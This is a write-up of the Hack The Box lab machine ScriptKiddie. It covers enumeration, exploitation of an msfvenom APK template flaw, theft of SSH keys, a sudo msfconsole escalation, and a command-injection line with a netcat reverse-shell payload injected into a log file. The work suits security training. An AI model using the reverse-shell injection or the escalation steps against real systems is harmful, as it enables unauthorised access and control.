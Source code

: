 ## Hackthebox.eu - ScriptKiddie

## Enumeration
### nmap
```bash
$ nmap -sC -sV -oA nmap/init 10.10.10.226

 Nmap 7.91 scan initiated Sun Feb  7 11:01:09 2021 as: nmap -sC -sV -oA nmap/initial 10.10.10.226
Nmap scan report for 10.10.10.226
Host is up (0.040s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d\'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb  7 11:01:18 2021 -- 1 IP address (1 host up) scanned in 9.43 seconds
```

### gobuster
I didn't find gobuster useful for this box, but I ran it in the backround as I traversed the web server

### Manual traversal
Run burp suite for scope history and traverse the web page to record requests and responses as per usual.


## Owning user
### Web server description
There were three forms on the web server

#### nmap
Puts the given IP into an nmap command and outputs the result. The input seems to be regex'd for IPs and I couldn't find any injection that worked.

#### sploits
Searches for exploits by your given string. I tried command injection but it gives a warning that they will hack you back. This turns out to be important for getting root later.

#### payloads
This one was more interesting off the bat. I'm not very familiar with metasploit, but it seems to generate meterpreter binaries in a tcp reverse shell. There's an option for you to upload a template, and to choose which operating system to generate binaries for. Only Android and windows seemed to work, while linux through an error.

1. The linux error was a rabit hole that I went down trying to find a way to exploit my inputs to get more data back. I had no success.

2. Creating a binary gave you a download link. This link never changed and seemed to be an md5 sum of some kind. I didn't find anything with directory traversal or filename manipulation.

3. I didn't think any traditional upload strategies would work, as I'm familiar with python web servers, and the only easy vuln you'l find are template injections, but I didn't think that applied here.

4. I had a hard time figuring out what metasploit templates where, but it seems you can do code injection into an existing executable to build trojan horses with it. You upload an existing binary and it would put a tcp reverse shell meterpreter session into it, and give you a download link. I found CVE-2020-7384 which is a reference to this exact metasploit function having a vuln while generating android APKs. If you crafted a malicious APK you could get code execution.

### Web service exploitation
Found a proof of concept at https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md

This PoC wouldn't work when I changed to an openbsd style netcat reverse shell. Seems to be an error with base64 decoding a *+* character, so I changed it to base32 to remove the offender. I then uploaded this apk as an adroid template in the web form, and got a reverse shell.

Once I was in user, there was an existing ssh key, which I stole to have a more stable connection to the box

```bash
kid@scriptkiddie:~/logs$ id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
```


## User traversal
### Enumeration
Ran linpeas in the background

Linpeas revealed there was another user, **pwn**.

### Manual enumeration
#### Kids home directory
Had a look in **kid**'s home directory and got access to the web app. The source code indicated that when the regex for the searchsploit failed, it would write the timestamp and IP into a log file ```logs/hackers```

Looking into this file showed it was empty. I decided to tail the file for new output, and crafted a hacking attempt from the web front end. I got the warning and a curious result at the terminal. The output was there as expected, but it was immediatly truncated. Some service was monitoring that file and working with it.

#### Pwns home directory
**pwn** had a suspicious shell script that I had read access to called ```scanlosers.sh```. This script seemed to check the hackers log file, and run nmaps on the target and recording the output. After it did this it would erase the file contents.

### Exploitation
The ```scanlosers.sh``` script assummed the IP coming in from the log file was trusted. But since I had write access to the log file, I crafted a malicious line that had command injection in the IP: ```[2021-02-07 17:57:52.187031] 1.1.1.1; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 5051 >/tmp/f;```. I then had a listener opened and waited for the remote shell, and I was in as **pwn**.

Since there were ssh keys set up for **kid** I looked right away for keys for **pwn** which were available. I also grabbed them to ensure I had an easy connection.

## Owning root
### Enumeration
On a whim I decided to check for sudo perissions on **pwn** before doing anything, and got a positive result to run ```msfconsole``` with no password. I immediatly ran it.

### Exploitation
Now I'm not very familiar with metasploit, so I wasn't sure how to get a local shell, and my google-fu was sub par for this task (Getting remote shells is the entire purpose of this program! You try looking up how to drop to a local shell!).

Having a quick look at the commands though, I found one that dropped to a ruby based scripting language. I immediatly ran that command and was given an interpreter command line. My next step was googling how to run system commands with ruby, and it was as simple as surrounding them with back ticks like in bash.

I ran ```cat /root/root.txt``` directly and got the flag. Never bothering to even stabilize the shell.
